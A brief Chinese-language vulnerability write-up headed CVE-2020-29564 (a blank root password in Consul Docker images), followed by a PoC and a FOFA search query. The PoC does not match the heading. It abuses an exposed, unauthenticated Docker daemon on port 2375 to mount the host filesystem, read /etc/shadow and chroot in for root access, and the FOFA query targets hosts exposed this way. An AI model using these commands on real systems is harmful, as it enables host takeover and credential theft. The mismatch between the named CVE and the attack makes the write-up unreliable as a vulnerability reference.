 # CVE-2020-29564 Consul Docker images 空密码登录漏洞

Consul Docker images 0.7.1至1.4.2版本部署的Consul Docker容器的系统，可能允许远程攻击者使用空白密码来实现root用户访问。

**PoC:**

```bash
docker -H <host>:2375 run --rm -it --privileged --net=host -v /:/mnt alpine

File Access: cat /mnt/etc/shadow
RCE: chroot /mnt
```

FOFA:

```
port="2375" && protocol=="docker"
```

![](media/16096802412075/16096802747315.jpg)


![](media/16096802412075/16096802834542.jpg)


**ref：**

* https://forum.ywhack.com/thread-114824-1-2.html
* https://github.com/koharin/koharin2/blob/main/CVE-2020-29564